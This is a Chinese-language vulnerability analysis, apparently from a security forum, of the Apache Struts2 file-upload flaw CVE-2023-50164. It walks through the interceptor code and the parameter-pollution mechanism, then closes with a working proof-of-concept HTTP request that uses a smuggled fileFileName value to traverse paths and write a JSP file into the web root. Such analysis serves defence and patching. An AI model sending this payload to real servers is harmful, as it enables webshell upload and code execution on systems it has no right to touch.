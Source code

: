 漏洞描述
====

Apache Struts2 是一个开源的 Java Web 应用程序开发框架，旨在帮助开发人员构建灵活、可维护和可扩展的企业级Web应用程序。近日，Struts2 官方披露 CVE-2023-50164 Apache Struts 文件上传漏洞，攻击者可利用该漏洞污染相关上传参数导致目录遍历，在具体代码环境中可能导致上传 Webshell，执行任意代码。

漏洞分析
====

Struts2的默认配置通常包含`FileUploadInterceptor`，该拦截器负责处理文件上传，并将文件信息封装到相应的Action属性中。

正常文件上传
------

当我们使用默认配置上传文件，尝试路径穿越将文件上传至任意目录，测试发现无法路径穿越到任意目录

![image-20231210165300222](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-0b9b6423f2e53bb5e8c62bd7046fc5add8096179.png)

我们在`FileUploadInterceptor#intercept()`打下断点，跟进代码

![image-20231210165628696](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-bea3e561f9ed4e292895104830c92e418c288923.png)

这里跟进`multiWrapper.getFileNames()`

![image-20231210170059050](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-eadbabbb3551a486a98c25a4b27485d7bf8362c7.png)

这里继续跟进`getCanonicalName()`

![image-20231210170542142](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-845e5a65a621dfe5ea570ad9b21992e79b123a50.png)

发现获取文件名是通过substring方法进行截取的，通过../../进行目录穿越是不行的。

参数污染
----

回到`FileUploadInterceptor#intercept()`中，在获取文件名后生成了两个变量`contentTypeName`和`fileNameName`

![image-20231210172857904](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4e37f9b34455dea9091dd2d9c5ec5219b937b5f9.png)

![image-20231210180044724](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-428fd930a57f90480ac04d5b4251ba6958dc512a.png)

1. 检查每一个文件是否可以被接受(根据配置规则检查,默认全部接受)
2. 对可以接受的文件,将其文件名、内容类型和文件内容分别保存到三个List中(acceptedFileNames、acceptedContentTypes和acceptedFiles)
3. 如果接受的文件列表不为空,则将这三个List分别封装成Parameter,并存入参数Map中:
    
    
    - 文件内容列表acceptedFiles 封装成参数 inputName
    - 内容类型列表 acceptedContentTypes 封装成参数 contentTypeName
    - 文件名列表 acceptedFileNames 封装成参数 fileNameName
4. 最后将这个参数Map 设置到上下文的Parameters中，在`ParametersInterceptor#setParameters()`中对这些参数赋值

跟进`ParametersInterceptor#setParameters()`

![image-20231210181151414](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-c370c801673680443d3b4d33fdff48700bd2e653.png)

这里采用`HttpParameters.create()`创建参数

而在新版本中，对HttpParameters做出了修改，变成了大小写不敏感，而在存在漏洞的版本中是大小写敏感的。

![image-20231210182522101](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-e465bbabce8219ba7b77578b414aaed129ff2c96.png)

这导致了这里FileFileName和fileFileName会是不同的参数，都会在`ParametersInterceptor#setParameters()`赋值

而后面采用了使用 OGNL 表达式调用 setter 方法对变量赋值

![image-20231210183238455](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-d094e28b4204aeb410b26089db5e8d3c17017529.png)

OGNL 在查找 setter 方法时,会自动把属性名第一个字母变成大写,然后查找 setXxx() 这样的方法。

例如,如果你有一个属性名为 "name",那么 OGNL 会查找 setName() 方法。在这个过程中,不管 name 在 OGNL 表达式中是大写还是小写,都可以正确找到 setter 方法。所以在 Struts 2 的 OGNL 表达式中,属性名的首字母大小写可以不敏感。

所以当我手动传入一个fileFileName参数，在这里也会被赋值，fileFileName和FileFileName参数会被自动映射到同一个参数上。调用相应的get方法获取值时,会取得最后赋值的那个参数的值。

那么这两个参数的赋值先后顺序呢？如果我们手动传入的参数会后赋值，就可以覆盖掉前面的参数，造成参数污染。

在TreeMap中,键(key)的排序是大小写敏感的。默认的排序规则如下:

1. 大写字母会排在小写字母之前
2. 数字会排在字母之前

所以当文件上传的name构造为大写开头，手动传入的污染参数构造为小写开头即可

![image-20231210184928102](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-8d9306b95c1d00f593c2e0e98c76deeebcdf0d3b.png)

漏洞复现
====

构造数据包：

POST /s2/upload.action?fileFileName=../webapps/ROOT/shell.jsp HTTP/1.1

Host: 192.168.31.185:8080

Content-Length: 416

Cache-Control: max-age=0

Origin: <http://192.168.31.185:8080>

DNT: 1

Upgrade-Insecure-Requests: 1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjYgoTIxv686oqL3F

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: <http://192.168.31.185:8080/s2/>

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Connection: close

​

\------WebKitFormBoundaryjYgoTIxv686oqL3F

Content-Disposition: form-data; name="File"; filename="test.jsp"

Content-Type: application/octet-stream

​

test

\------WebKitFormBoundaryjYgoTIxv686oqL3F

Content-Disposition: form-data; name="submit"

​

submit

\------WebKitFormBoundaryjYgoTIxv686oqL3F--

文件上传成功，成功路径穿越到webapps目录下！

![image-20231210185327794](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-fc91acd783312c15e6f7801ef0f5af94d26ae86b.png)